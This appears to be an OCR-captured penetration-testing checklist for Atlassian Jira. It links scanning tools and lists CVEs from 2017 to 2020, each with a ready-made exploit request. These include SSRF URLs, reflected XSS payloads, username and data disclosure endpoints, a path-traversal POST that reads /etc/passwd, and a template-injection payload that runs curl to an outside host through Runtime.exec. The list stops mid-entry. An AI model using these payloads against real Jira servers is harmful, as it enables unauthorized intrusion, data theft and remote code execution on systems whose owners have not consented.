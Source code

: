 [ ] jirescan
```
https://github.com/netspooky/jLoot
https://github.com/0x48piraj/Jiraffe
https://github.com/bcoles/jira_scan
https://github.com/MayankPandey01/Jira-Lens
nuclie template 
```
[ ] cve-2017-9506 (ssrf)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-url?consumerUri=<ssrf payload>
```
[ ] cve-2018-20824 (xss)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
[ ] cve-2019-8451 (ssrf)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```
[ ] cve-2019-8449 (user info disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
[ ] cve-2019-8442 (sen info disc)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/ maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
Observe that the pom.xml file is accessible.
```
[ ] cve-2019-3403 (username enum)
```
Navigate to <Jira_URL>/rest/api/2/user/ picker?query=<user_name_here>
Observe the difference in response when valid vs. invalid user is queried.
```
[ ] cve-2019-3402 (xss)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
Observe that the payload is getting executed.
```
[ ] cve-2019-3396 (path traversal, rce)
```
1. Try Below POST Request with the JIRA Target
2. POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_ 64; rv:60.0) Gecko/20100101 Firefox/60.0 Referer: {{Hostname}}
Content-Length: 168
Connection: close <give an enter and remove this comment>
{"contentId":"786457","macro":{" name":"widget","body":"","params":{"url":" https://www.viddler.com/v/23464dc5"," width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```
[ ] cve-2019-11581 (template inj)
```
Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
[ ] cve-2020-14179 (info disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
It leaks information about custom fields, custom SLA, etc.
```
[ ] cve-2020-14178 (project key enumeration)